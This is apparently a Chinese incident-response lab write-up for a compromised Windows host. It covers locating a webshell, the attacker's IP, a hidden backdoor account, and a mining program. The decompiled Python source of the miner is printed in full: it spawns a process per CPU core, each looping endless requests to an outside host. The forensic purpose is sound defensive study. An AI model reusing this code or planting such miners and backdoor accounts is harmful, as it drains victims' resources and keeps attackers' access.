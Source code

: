   ```

### Windows应急响应1

#### 查找攻击者上传的webshell

![image-20241019154125170](./assets/image-20241019154125170.png)

- 访问目录查看连接密码

![image-20241019154343888](./assets/image-20241019154343888.png)

- 攻击者ip地址:`192.168.126.1`

#### 隐藏的后面用户

![image-20241019155235539](./assets/image-20241019155235539.png)

#### 找到挖矿程序

![image-20241019155353150](./assets/image-20241019155353150.png)

- 进行反编译,查看

```py
# uncompyle6 version 3.9.2
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.8.10 (default, Sep 11 2024, 16:02:53) 
# [GCC 9.4.0]
# Embedded file name: Kuang.py
import multiprocessing, requests

def cpu_intensive_task():
    while True:
        try:
            requests.get("http://wakuang.zhigongshanfang.top", timeout=10)
        except:
            pass


if __name__ == "__main__":
    cpu_count = multiprocessing.cpu_count()
    processes = [multiprocessing.Process(target=cpu_intensive_task) for _ in range(cpu_count)]
    for process in processes:
        process.start()
    else:
        for process in processes:
            process.join()

# okay decompiling /tmp/temp_11604878450251652175/Kuang.pyc
```
